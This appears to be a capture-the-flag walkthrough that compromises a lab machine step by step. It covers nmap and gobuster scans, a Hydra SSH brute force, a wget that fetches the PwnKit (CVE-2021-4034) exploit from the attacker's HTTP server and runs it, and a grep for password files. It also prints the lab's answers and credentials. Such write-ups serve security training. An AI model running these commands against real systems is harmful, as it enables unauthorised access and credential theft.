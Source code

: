 ### Find the services exposed by the machine
```BASH
sudo nmap -sV 10.10.26.17
```
![image](https://github.com/user-attachments/assets/c12abb48-bb66-4ff5-962a-397cdf2aab0a)

<span style="line-height:0.5;">&nbsp;</span>

### What is the name of the hidden directory on the web server(enter name without /)?
```BASH
gobuster dir -u "http://10.10.26.17/" -w /usr/share/wordlists/dirbuster/directory-list-1.0.txt -t 64
```
![image](https://github.com/user-attachments/assets/a6679aca-3502-417e-8011-9aee2b27c060)

<pre>development</pre>

<span style="line-height:0.5;">&nbsp;</span>

### User brute-forcing to find the username & password
From the nmap scan you can see that port 8080 is open. You can see that website runs on `Apache Tomcat/9.0.7`. Additionally url `manager/html` is avaiable.  

![image](https://github.com/user-attachments/assets/798851bc-dac7-4bc1-81b9-e39575c0290e)  

The fact that `http://10.10.26.17:8080/manager/html` prompts for authentication means the Tomcat Manager interface is enabled.

<span style="line-height:0.5;">&nbsp;</span>

Run enum4linux:
```BASH
enum4linux -a 10.10.26.17
```
![image](https://github.com/user-attachments/assets/6cb0e81f-98cb-4770-89ea-71451c420cb5)  

<span style="line-height:0.5;">&nbsp;</span>

Run Hydra:
```BASH
hydra -l jan -P /usr/share/wordlists/rockyou.txt 10.10.26.17 ssh
```

<span style="line-height:0.5;">&nbsp;</span>

What is the username? What is the password?
<pre>jan</pre>
<pre>armando</pre>

<span style="line-height:0.5;">&nbsp;</span>

### What service do you use to access the server(answer in abbreviation in all caps)?
<pre>SSH</pre>

<span style="line-height:0.5;">&nbsp;</span>

### What is the name of the other user you found(all lower case)?
<pre>kay</pre>

<span style="line-height:0.5;">&nbsp;</span>

### What is the final password you obtain?
Now you can login as jan. Run:
```BASH
ssh jan@10.10.134.179
```
From the image you can see that jan have no sudo privileges at all, not even to list what commands are allowed with sudo -l. So this user is completely blocked from escalating via sudo.  

![image](https://github.com/user-attachments/assets/9c37f154-1877-47a0-a92b-9c9d20941fad)

Confirms that jan can not sudo.  

![image](https://github.com/user-attachments/assets/27020f18-8c28-4466-ae1e-35751639e86e)

Since vim didn't work, go back to  `/ -perm -4000 -type f` list and try the next likely candidate:
```BASH
ls -l /usr/bin/pkexec
```

![image](https://github.com/user-attachments/assets/a774ea6d-3c95-474f-8f24-c3682d455fac)  

pkexec is SUID and dated Jan 2016. This version is vulnerable to [CVE-2021-4034 (PwnKit)](https://ubuntu.com/security/cve-2021-4034).

### On the attacker machine
Download and compile:
```BASH
git clone https://github.com/berdav/CVE-2021-4034.git
cd CVE-2021-4034
make
tar czf pwnkit.tar.gz CVE-2021-4034/
```
![image](https://github.com/user-attachments/assets/057c5997-9621-43fb-a172-2f5cdc2f6ffa)

Start a local HTTP server.
```BASH
sudo python3 -m http.server 9000
```
![image](https://github.com/user-attachments/assets/80bf24ec-2969-4f24-9827-f72c39d9344c)

### On the victim machine:
```BASH
cd /tmp
wget http://10.10.151.188:9000/pwnkit.tar.gz
tar xzf pwnkit.tar.gz
cd CVE-2021-4034
./cve-2021-4034
```
![image](https://github.com/user-attachments/assets/94ada5d6-5561-4037-ade8-6e8372c83933)

Run this command to search through all files in /root and /home, looking for anything that contains: `pass` or `flag`.
```BASH
grep -rE "pass|flag" /root /home 2>/dev/null
```
![image](https://github.com/user-attachments/assets/66de4a59-218f-4e8d-9c7e-e50c15a8daf6)

At the last line there is: `/home/kay/pass.bak:heresareallystrongpasswordthatfollowsthepasswordpolicy$$`.The password is:
<pre>heresareallystrongpasswordthatfollowsthepasswordpolicy$$</pre>


